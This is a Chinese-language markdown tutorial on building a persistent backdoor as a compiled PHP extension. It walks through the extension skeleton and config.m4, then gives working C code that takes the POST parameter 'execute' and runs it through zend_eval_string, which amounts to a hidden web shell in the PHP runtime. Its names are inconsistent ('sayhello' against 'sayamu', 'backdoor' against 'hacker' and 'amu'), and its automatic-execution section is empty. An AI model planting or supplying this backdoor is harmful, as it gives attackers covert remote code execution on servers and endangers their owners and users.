

> php持续扩展后门，在PHP扩展中，我们主要关注4个hooks：`MINIT`＆`MSHUTDOWN`，以及`RINIT`和`RSHUTDOWN`。当解释器启动和停止时，M 以root身份执行（通常）。R 在作为服务器用户执行

#### 自定义函数触发方式

* 扩展编写

  * 扩展骨架生成

    `./ext_skel --extname=backdoor`

  * 修改*config.m4*文件

    **PHP_ARG_ENABLE** 说明

        第1个参数是我们扩展的名字，这里为hacker
        
        第2个参数是我们运行./configure 脚本时显要指定示的内容，这里没有配置，即为0
        
        第3个参数是我们在调用./configure –help 的 时候要指定显示的帮助信息，这里也没有配置，为0
    **PHP_NEW_EXTENSION**说明

    第1个参数是模块名字，这里为backdoor

    第2个参数表示的是编译模块需要的源文件名称 ，这里为backdoor.c

    如果我们的扩展使用了多个文件，便可以将这多个文件名罗列在函数的参数里，不同源文件之间以空格隔开， 比如：

    ```
    PHP_NEW_EXTENSION(sample, sample.c sample2.c sample3.c, $ext_shared)
    ```

    第3个参数表示的是编译的形式，这里的$ext_shared参数用来声明这个扩展不是一个静态模块，而是在php运行时动态加载的。

  * 修改 *backdoor.c*

    ```
    PHP_FUNCTION(sayhello)
    {
        char* method = "_POST";
        char* secret_string = "execute";
    
        #if PHP_MAJOR_VERSION < 7
            zval** arr;
            char* code;
            if (zend_hash_find(&EG(symbol_table), method, strlen(method) + 1, (void**)&arr) == SUCCESS) {
            HashTable* ht = Z_ARRVAL_P(*arr);
            zval** val;
            if (zend_hash_find(ht, secret_string, strlen(secret_string) + 1, (void**)&val) == SUCCESS) {
                code =  Z_STRVAL_PP(val);
            }
            zend_eval_string(code, NULL, (char *)"" TSRMLS_CC);
            }
        #else
            zval* arr,*code =NULL;
            if (arr = zend_hash_str_find(&EG(symbol_table), "_POST", sizeof("_POST") - 1)) {
                if (Z_TYPE_P(arr) == IS_ARRAY && (code = zend_hash_str_find(Z_ARRVAL_P(arr), secret_string, strlen(secret_string)))) {
                    zend_eval_string(Z_STRVAL_P(code), NULL, (char *)"" TSRMLS_CC);
                }
            }
        #endif
        return SUCCESS;
    }
    ```

    增加入口说明

    ```
    const zend_function_entry amu_functions[] = {
    	PHP_FE(confirm_amu_compiled,	NULL)		/* For testing, remove later. */
    	PHP_FE(sayhello, NULL)
    	PHP_FE_END	/* Must be the last line in amu_functions[] */
    };
    ```

  * 编译安装

* 验证

  ```
  pi@raspberrypi:/Data/apps/nginx/html $ cat index.php 
  <?php
  sayamu();
  ```

  

#### 全自动执行方式

* 扩展编写
* 验证
